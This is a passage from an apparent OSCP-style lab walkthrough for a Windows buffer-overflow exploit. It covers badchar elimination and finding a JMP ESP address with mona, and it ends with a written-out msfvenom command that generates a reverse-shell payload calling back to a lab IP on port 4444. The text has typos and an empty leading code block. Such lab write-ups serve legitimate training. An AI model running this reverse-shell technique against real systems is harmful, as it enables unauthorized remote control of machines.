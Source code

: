 ```

```

We should modificate the payload field in our exploit.py with this new array

![14]

Repeat the process and now you should fid the Unmodified Status

![15]

Repeat the badchar comparison until the results status returns "Unmodified". This indicates that no more badchars exist.

### Finding a Jump Point

With the oscp.exe either running or in a crashed state, run the following mona command, making sure to update the -cpb option with all the badchars you identified (including \x00):  

`!mona jmp -r esp -cpb "\x00"`

![16]

Right Click in one of the adreess and copy to the clipboard

```
625011AF
```

Since windows7 has Little Endian notation, we should write the address in reverse mode

Immunity Debugger DIrection: 625011AF
Converted Direction: ``\xaf\x11\x50\x62

We just need to paste this direction in out exploit.py script

### Creating malicious Payload

We need to create a payload using msfvenom with the following parameters:

-p windows/shell_reverse_tcp: Indicates that we want a Windows reverse shell. LHOST LPORT: Specifies the IP and port it should connect to. 

EXITFUNC=thread: Ensures that all operations are performed in a child process, so when we crash the application, the parent process doesn't terminate (which could potentially cause a BSOD on the system).

-b: Specifies the badchars that should not be used in the payload. 

-f c: Requests the output in C code format.

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.18.59.189 LPORT=4444 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f c
```

![17]
